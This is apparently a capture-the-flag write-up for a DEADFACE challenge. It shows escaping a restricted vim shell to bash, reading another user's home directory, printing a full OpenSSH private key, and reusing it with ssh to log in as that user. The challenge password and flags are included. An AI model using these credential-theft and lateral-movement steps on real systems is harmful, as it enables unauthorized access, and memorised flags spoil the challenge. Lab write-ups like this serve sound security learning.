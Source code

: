 # Host Busters 1 (50 points)
Turbo Tactical has gained access to a DEADFACE machine that belongs to `gh0st404`. This machine was used to scan one of TGRI’s websites. See if you can find anything useful in the `vim` user’s directory.

On a side note, it’s also a good idea to collect anything you think might be useful in the future for going after DEADFACE.

Submit the flag as `flag{flag_here}`.

`vim@gh0st404.deadface.io`

Password: letmevim

## Solution
If we access the server with ssh we are trapped inside a vim session. But in vim u can easily start a terminal with the command `:terminal`. We the shell we can read out the flag file in our home directory:
![Flag](./images/host_busters.png)

## Extra
In vim are the mouse controls activated. We can disable them with the command `:set mouse=`. After that we can also copy from the terminal.

To get a full shell we can just call /bin/bash. Then we can examine the other home directories. In the directory of `gh0st404` we find a private ssh key:
```
$ /bin/bash
vim@a3f3ce1919ac:/home$ ls -al
total 28
drwxrwxr-x 1 root      root      4096 Jul 29 23:05 .
drwxr-xr-x 1 root      root      4096 Oct 21 10:42 ..
drwxrwxr-x 1 gh0st404  gh0st404  4096 Jul 31 02:24 gh0st404
drwxrwxr-x 1 mort1cia  mort1cia  4096 Jul 29 23:05 mort1cia
drwxrwxr-x 1 spookyboi spookyboi 4096 Jul 31 02:24 spookyboi
drwxrwxr-x 1 vim       vim       4096 Oct 21 11:00 vim
vim@a3f3ce1919ac:/home$ cd gh0st404/
vim@a3f3ce1919ac:/home/gh0st404$ ls -al
total 64
drwxrwxr-x 1 gh0st404 gh0st404  4096 Jul 31 02:24 .
drwxrwxr-x 1 root     root      4096 Jul 29 23:05 ..
-rw------- 1 gh0st404 gh0st404   214 Jul 29 23:02 .bash_history
-rw-r--r-- 1 gh0st404 gh0st404   220 Apr 23 21:23 .bash_logout
-rw-r--r-- 1 gh0st404 gh0st404  3526 Apr 23 21:23 .bashrc
drwxrwxr-x 1 gh0st404 gh0st404  4096 Jul 29 23:05 .keys
-rw-r--r-- 1 gh0st404 gh0st404   807 Apr 23 21:23 .profile
drwx------ 1 gh0st404 gh0st404  4096 Jul 29 23:05 .ssh
-rw-rw-r-- 1 gh0st404 gh0st404    47 Jul 29 23:05 config
-rw------- 1 gh0st404 gh0st404    34 Jul 29 23:05 hostbusters3.txt
-rw-rw-r-- 1 gh0st404 gh0st404  2610 Jul 29 23:05 id_rsa
-rw-r--r-- 1 gh0st404 gh0st404   958 Jul 29 23:05 tgri-alive.xml
-rw-r--r-- 1 gh0st404 gh0st404 11650 Jul 29 23:05 tgri-scan.xml
vim@a3f3ce1919ac:/home/gh0st404$ cat id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
-----END OPENSSH PRIVATE KEY-----
vim@a3f3ce1919ac:/home/gh0st404$
```

If we use this key we can log in via ssh with the user:
```
vim@25debd5e0e7b:/home/gh0st404$ ssh -i id_rsa gh0st404@localhost
The authenticity of host 'localhost (127.0.0.1)' can't be established.
ED25519 key fingerprint is SHA256:0mHE5uZoBUeZWuf9AnEP42DxVfDI1xhTG1X1f5exMwg.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'localhost' (ED25519) to the list of known hosts.
Linux 25debd5e0e7b 5.10.0-26-amd64 #1 SMP Debian 5.10.197-1 (2023-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
gh0st404@25debd5e0e7b:~$ id
uid=1003(gh0st404) gid=1003(gh0st404) groups=1003(gh0st404),1004(deadface)
gh0st404@25debd5e0e7b:~$
```

Now we can read out the file `hostbusters3.txt` and get another flag:
```
gh0st404@25debd5e0e7b:~$ ls -al
total 64
drwxrwxr-x 1 gh0st404 gh0st404  4096 Jul 31 02:24 .
drwxrwxr-x 1 root     root      4096 Jul 29 23:05 ..
-rw------- 1 gh0st404 gh0st404   214 Jul 29 23:02 .bash_history
-rw-r--r-- 1 gh0st404 gh0st404   220 Apr 23 21:23 .bash_logout
-rw-r--r-- 1 gh0st404 gh0st404  3526 Apr 23 21:23 .bashrc
drwxrwxr-x 1 gh0st404 gh0st404  4096 Jul 29 23:05 .keys
-rw-r--r-- 1 gh0st404 gh0st404   807 Apr 23 21:23 .profile
drwx------ 1 gh0st404 gh0st404  4096 Jul 29 23:05 .ssh
-rw-rw-r-- 1 gh0st404 gh0st404    47 Jul 29 23:05 config
-rw------- 1 gh0st404 gh0st404    34 Jul 29 23:05 hostbusters3.txt
-rw-rw-r-- 1 gh0st404 gh0st404  2610 Jul 29 23:05 id_rsa
-rw-r--r-- 1 gh0st404 gh0st404   958 Jul 29 23:05 tgri-alive.xml
-rw-r--r-- 1 gh0st404 gh0st404 11650 Jul 29 23:05 tgri-scan.xml
gh0st404@25debd5e0e7b:~$ cat hostbusters3.txt
flag{Embr4c3_th3_K3y_t0_5ucc355!}
gh0st404@25debd5e0e7b:~$
```

Probably for another challenge.

As well we find some more keys:
```
gh0st404@25debd5e0e7b:~$ ls -al .keys/
total 16
drwxrwxr-x 1 gh0st404 gh0st404 4096 Jul 29 23:05 .
drwxrwxr-x 1 gh0st404 gh0st404 4096 Jul 31 02:24 ..
-rw-rw-r-- 1 gh0st404 gh0st404 1074 Jul 29 23:05 gh0st404-priv.pem
-rw-rw-r-- 1 gh0st404 gh0st404  272 Jul 29 23:05 gh0st404-public.pem
gh0st404@25debd5e0e7b:~$
```